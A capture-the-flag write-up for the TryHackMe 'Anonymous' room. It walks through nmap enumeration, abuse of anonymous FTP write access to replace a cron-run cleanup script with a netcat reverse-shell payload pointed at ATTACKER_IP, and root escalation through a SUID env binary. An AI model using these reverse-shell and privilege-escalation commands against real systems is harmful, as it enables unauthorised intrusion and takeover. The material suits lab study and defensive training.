 ```yaml
---
title: "Anonymous — Writeup"
author: "n0l1v3sm4tt3r"
categories: [THM]
tags: [ftp, cron, crontab, reverse-shell, suid, env]
media_subpath: "/images/thm-anonymous/"
image:
  path: logo.png
---
```


## Table of Contents

1. [Introduction](#introduction)
2. [Recon / Basic Enumeration](#recon--basic-enumeration)
3. [Anonymous FTP](#anonymous-ftp)
4. [Shell as namelessone by injecting clean file](#shell-as-namelessone-by-injecting-clean-file)
5. [Spawn a TTY shell](#spawn-a-tty-shell)
6. [From namelessone to root](#from-namelessone-to-root)

---

## Introduction

> **URL**: https://tryhackme.com/room/anonymous  
> **Difficulty**: Medium  
> **Victim IP**: 10.10.147.209  

---

# Recon / Basic Enumeration

## Nmap scan

```bash
mkdir nmap;nmap -A -T5 -Pn 10.10.147.209 -oN nmap/basic.txt
````

```console
Nmap scan report for 10.10.147.209
Host is up (0.030s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.47.187
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Aggressive OS guesses: Linux 4.15 (99%), Android 9 - 10 (Linux 4.9 - 4.14) (96%), Linux 3.2 - 4.14 (96%), Linux 4.15 - 5.19 (96%), Linux 2.6.32 - 3.10 (96%), Linux 5.4 (95%), Linux 2.6.32 - 3.5 (94%), Linux 2.6.32 - 3.13 (94%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.14) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2025-10-26T12:39:40+00:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-26T12:39:40
|_  start_date: N/A

TRACEROUTE (using port 993/tcp)
HOP RTT      ADDRESS
1   28.30 ms 10.8.0.1
2   28.36 ms 10.10.147.209

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

FTP allows anonymous login — this is the initial attack vector.

---

## Anonymous FTP

### Get the files

Connect to the FTP server using anonymous credentials (`ftp:ftp` or `anonymous:anonymous`) and list the `scripts` directory which is world-writable:

```bash
$ ftp 10.10.147.209
# login...
ftp> ls
scripts
ftp> cd scripts
ftp> prompt off
ftp> mget *
```

Files of interest downloaded from `/scripts`:

* `removed_files.log` (log file)
* `clean.sh` (cleanup script)

`removed_files.log` contents (shows repeated "nothing to delete"):

```text
$ cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
... (repeated lines)
```

![Removed logs](removedlogs.png)

Original `clean.sh` contents (as downloaded):

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

![clean.sh script](clean.png)

> **Observation:** The script is served by the FTP `scripts` directory and is writable by the anonymous FTP user. Replacing this script with a reverse-shell payload will cause it to run as the account that executes the cleanup, yielding a callback.

---

## Shell as namelessone by injecting clean file

Replace `clean.sh` with a reverse-shell payload. (All reverse-shell one-liners used here come from [revshells website](https://revshells.com)) Example payload used:

```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

On the attacker machine, listen for the callback:

```bash
nc -nlvp <ATTACKER_PORT>
```

Upload the modified `clean.sh` via FTP and wait for the cron job to run (the log suggests repeated runs — likely every minute):

```bash
$ ftp 10.10.147.209
# use the same creds as before
ftp> cd scripts
ftp> put clean.sh
```

![put clean.sh](put_clean.png)

Once the cron executes the script, the listener receives a connection.

![Netcat callback receiving reverse shell](callback.png)

---

### Spawn a TTY shell

After receiving the initial connection, spawn a proper interactive shell:

```bash
export TERM=xterm
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

At this point you should have a shell as the user under which the cleanup script runs (in this writeup that user is `namelessone`).

(When appropriate, retrieve the user flag.)

![user.txt (redacted)](userflag.png)

---

## From namelessone to root

### Enumerate SUID binaries

Search for files with the SUID bit set to find potential misconfigurations:

```bash
find / -type f -perm -4000 2>/dev/null
```

The scan reveals `/usr/bin/env` has the SUID bit set:

```
/usr/bin/env
```

![SUID on /usr/bin/env](suid.png)

### Getting a root shell

Check GTFOBins for `env` and follow the technique to escalate privileges.

![GTFOBins PoC](gtfo.png)

**GTFOBins PoC used:**

```bash
sudo install -m =xs $(which env) .
./env /bin/sh -p
```

The essential command to obtain a root shell on this host is:

```bash
/usr/bin/env /bin/sh -p
```

This spawns a shell with elevated privileges because `env` is SUID-root on this machine. Execute `/usr/bin/env /bin/sh -p` to get a root shell.

![root shell](root.png)

---